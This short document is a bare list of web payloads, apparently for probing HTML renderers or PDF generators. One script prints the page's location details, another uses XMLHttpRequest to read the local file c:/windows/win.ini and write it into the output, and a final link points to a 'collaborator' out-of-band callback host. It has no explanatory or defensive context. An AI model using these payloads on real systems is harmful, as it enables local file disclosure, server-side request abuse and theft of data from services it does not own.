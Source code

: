 <script>
  document.write(window.location.href);
  document.write(window.location.hostname);
  document.write(window.location.pathname);
  document.write(window.location.protocol);
  document.write(window.location.host);
  document.write(window.location.port);
</script>
---------------------------------------------------------------
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///c:/windows/win.ini");
x.send();
</script>
------------------------------------------------------------------------------------------
<a rel='attachment' href='http://collaborator'>
